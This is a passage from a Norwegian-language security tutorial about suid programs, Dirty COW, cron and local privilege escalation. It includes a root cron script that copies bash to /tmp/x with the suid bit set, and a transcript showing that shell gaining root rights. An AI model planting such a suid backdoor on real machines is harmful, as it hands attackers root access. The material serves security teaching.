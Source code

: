 ```sh
$ id
uid=1000(n00b) gid=1000(n00b) groups=...

$ sudo id
uid=0(root) gid=0(root) groups=...
```

> Du kan selv utforske *suid*. Ta en titt på øvelsene i katalogene `~/1_grunnleggende/2_setuid/` og `~/1_grunnleggende/3_injection/`.

En sårbarhet i et program med *suid*-bitet satt lar oss altså gjøre ting på systemet man normalt ikke ville hatt rettigheter til. Derfor vil ikke suid-programmer være skrivbare for andre enn eieren. Hvis du klarer å lure tilgangskontrollen er det trivielt å kjøre vilkårlig kode med samme rettigheter som eieren av filen. Et interessant eksempel på en sårbarhet som muliggjør dette er *Dirty COW* (CVE-2016-5195). Denne sårbarheten av av typen *race condition* eller *TOCTTOU* (*time-of-check to time-of-use*) i *virtual memory*-subsystemet i Linux-kjernen.

Problemet var at *movemail* ikke bare kopierte epost, men kunne brukes til å kopiere nær sagt hva som helst -- fra hvor som helst -- til hvor som helst på systemet. Hackeren brukte *movemail* til å installere en *cron*-jobb for *root*, og skaffet seg på den måten full tilgang til maskinen.

### Cron

*Cron* brukes på UNIX-type systemer til å kjøre kommandoer på et angitt tidspunkt, eller ved faste intervaller. Cron-jobber kan opprettes for både ordinære brukere og superbrukeren *root*. Kommandoene kjøres da med brukerens rettigheter.

Man trenger å være *root* for å opprette en *cron*-jobb for *root*.

Hvordan misbruker du dette i praksis? Hva med å få installert en *cron*-jobb for *root* som kjører dette scriptet?

```sh
#!/bin/sh
cp `which bash` /tmp/x
chmod u+s /tmp/x
```

Når *cron* har kjørt scriptet kan hackeren starte programmet `/tmp/x` og ha et interaktivt shell med *root* sine rettigheter. Dette er en type sårbarhet som kalles *LPE* - *Local Privilege Escalation*.

Moderne shell som kjøres *suid* vil av sikkerhetsgrunner droppe *suid*-rettighetene, med mindre man angir `-p` ved start.

```sh
$ stat /tmp/x
Access: (4755/-rwsr-xr-x)  Uid: (0/root)   Gid: (0/root)
         ^                         ^^^^

$ /tmp/x
x-5.0$ id
uid=1000(n00b) gid=1000(n00b) groups=...

$ /tmp/x -p
x-5.0# id
uid=1000(n00b) gid=1000(n00b) euid=0(root) groups=...
                              ^^^^^^^^^^^^
```
